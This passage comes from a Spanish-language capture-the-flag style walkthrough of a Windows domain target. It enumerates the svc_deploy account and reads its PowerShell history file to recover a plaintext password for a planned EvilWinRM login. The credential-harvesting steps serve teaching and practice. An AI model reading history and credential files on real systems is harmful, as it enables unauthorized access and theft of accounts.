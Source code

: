 El que nos va a interesar es **svc_deploy**, si vemos mas informacion con el comando **net user svc_deploy**:

```ruby
User name                    svc_deploy
Full Name                    svc_deploy
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            10/25/2021 12:12:37 PM
Password expires             Never
Password changeable          10/26/2021 12:12:37 PM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   10/25/2021 12:25:53 PM

Logon hours allowed          All

Local Group Memberships      *Remote Management Use
Global Group memberships     *LAPS_Readers         *Domain Users
The command completed successfully.
```

Vemos que forma en el grupo **LAPS_Readers**, eso quiere decir que posiblemente el usuario **svc_deploy** tiene permisos para leer el contenido de LAPS, asi que una buena idea seria convertirnos en ese usuario, en este punto de pura enumeracion, y una de las cosas que se pueden hacer es ver el historial de powershell de **svc_deploy**, esto lo podemos hacer automaticamente usando **WinPeas**.

El historial de powershell se almacena en **C:\Users\legacyy\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt**, si lo leemos podemos ver que ha ejecutado varios comandos

```powershell
whoami
ipconfig /all
netstat -ano |select-string LIST
$so = New-PSSessionOption -SkipCACheck -SkipCNCheck -SkipRevocationCheck
$p = ConvertTo-SecureString 'E3R$Q62^12p7PLlC%KWaxuaV' -AsPlainText -Force
$c = New-Object System.Management.Automation.PSCredential ('svc_deploy', $p)
invoke-command -computername localhost -credential $c -port 5986 -usessl -
SessionOption $so -scriptblock {whoami}
get-aduser -filter * -properties *
exit
```

Observa que en la variable **$p** se le esta asignando el valor de **E3R$Q62^12p7PLlC%KWaxuaV**, pero hace uso de **ConvertTo-SecureString** para cifrar ese string, y despues con  **System.Management.Automation.PSCredential** le esta asignando la contraseña almacenada en **$p** al usuario **svc_deploy**, y esa contraseña es **E3R$Q62^12p7PLlC%KWaxuaV**, como el usuario **svc_deploy** pertecene el grupo **Remote Management Use** nos podemos conectar usando **EvilWinRM** con SSL
